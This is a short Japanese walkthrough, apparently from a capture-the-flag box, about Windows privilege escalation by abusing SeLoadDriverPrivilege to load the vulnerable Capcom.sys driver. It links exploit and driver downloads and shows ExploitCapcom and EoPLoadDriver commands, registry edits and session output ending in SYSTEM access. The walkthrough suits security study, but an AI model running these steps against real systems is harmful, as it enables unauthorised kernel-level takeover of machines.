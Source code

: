 # エクスプロイトとドライバファイル（コンパイル不要）

- [Capcom.sys (mega.nz)](https://mega.nz/file/GiBTmCRD#cRz3XWMEojDvrd0LHPE3GpXKkYdikITvco8qKwmdgzQ)
- [ExploitCapcom.exe (github - clubby789)](https://github.com/clubby789/ExploitCapcom/releases/tag/1.0)

（sysファイルはドライバファイルの一つ。接続されたデバイスを制御するためのデータが含まれてる。）

<br>

**SeLoadDriverPrivilege**という権限があるからドライバのロードが出来る。

# 使い方

Exploit.Capcom.exeひとつでドライバのロードからコマンド実行まで可能。

```
*Evil-WinRM* PS C:\Users\svc-print> .\ExploitCapcom.exe LOAD C:\Users\svc-print\Capcom.sys
[*] Service Name: xmgrpdtl@õµó5
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\???????????????????
NTSTATUS: 00000000, WinError: 0

*Evil-WinRM* PS C:\Users\svc-print> .\ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000241542B0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system
```

#  [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

これだけで
- SeLoadDriverPrivilegeの付与
- HKEY_CURRENT_USER下へのレジストリキーの作成
- NTLoadDriverの実行
まで行ってくれる。

```
EOPLOADDRIVER.exe RegistryServicePath DriverImagePath
```

新しくCapcom用にロードするならたとえば
```
.\EOPLOADDRIVER.exe System\CurrentControlSet\MyCapcom C:\Windows\svc-print\Downloads\Capcom.sys
```

<br>

ちなみに、ドライバのロードにはドライバサービス名をレジストリに登録する必要がある。

たとえば今回なら

```
*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Users\svc-print\Capcom.sys"
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type  /t REG_DWORD /d 1
The operation completed successfully.
```

このboxではすでにSeLoadDriverPrivilegeの権限があったが、そうでない場合はこのレジストリの設定を行ったあとにEnableSeLoadDriverPrivilege.exe
とかをつかって権限を付与してやる。

# 結局何をしてるのか？（Comcomのドライバってなに？）

Capcom.sysはドライバファイル、そしてこのドライバはユーザ空間で定義された関数を使ってカーネル空間でコード実行できる機能がある。

それで、CapcomというドライバにおいてLPE（Local Privilege Escalation）の脆弱性及びエクスプロイトが公開されてる

つまりSeLoadDriverPrivilegeの権限があれば、この脆弱なCapcomというドライバをロードできて、それに対するエクスプロイトを使えるということ。

